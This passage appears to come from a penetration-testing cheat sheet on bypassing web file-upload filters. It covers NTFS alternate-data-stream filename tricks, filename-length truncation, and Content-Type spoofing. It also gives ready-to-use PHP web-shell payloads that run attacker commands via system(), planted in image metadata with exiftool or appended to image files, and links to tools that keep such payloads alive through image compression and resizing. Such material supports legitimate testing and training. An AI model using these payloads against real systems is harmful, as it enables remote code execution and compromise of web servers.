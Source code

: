 7. Using **NTFS alternate data stream (ADS)** in **Windows**. In this case, a colon character “:” will be inserted after a forbidden extension and before a permitted one. As a result, an **empty file with the forbidden extension** will be created on the server (e.g. “file.asax:.jpg”). This file might be edited later using other techniques such as using its short filename. The “**::$data**” pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. “file.asp::$data.”)
8. Try to break the filename limits. The valid extension gets cut off. And the malicious PHP gets left. AAA<--SNIP-->AAA.php

   ```
   # Linux maximum 255 bytes
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
   Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
   # Upload the file and check response how many characters it alllows. Let's say 236
   python -c 'print "A" * 232'
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   # Make the payload
   AAA<--SNIP 232 A-->AAA.php.png
   ```

### Bypass Content-Type, Magic Number, Compression & Resizing

- Bypass **Content-Type** checks by setting the **value** of the **Content-Type** **header** to: _image/png_ , _text/plain , application/octet-stream_
  1. Content-Type **wordlist**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt)
- Bypass **magic number** check by adding at the beginning of the file the **bytes of a real image** (confuse the _file_ command). Or introduce the shell inside the **metadata**:\
  `exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg`\
  `\` or you could also **introduce the payload directly** in an image:\
  `echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
- If **compressions is being added to your image**, for example using some standard PHP libraries like [PHP-GD](https://www.php.net/manual/fr/book.image.php), the previous techniques won't be useful it. However, you could use the **PLTE chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
  - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_plte_png.php)
- The web page cold also be **resizing** the **image**, using for example the PHP-GD functions `imagecopyresized` or `imagecopyresampled`. However, you could use the **IDAT chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
  - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_idat_png.php)
- Another technique to make a payload that **survives an image resizing**, using the PHP-GD function `thumbnailImage`. However, you could use the **tEXt chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
  - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_tEXt_png.php)
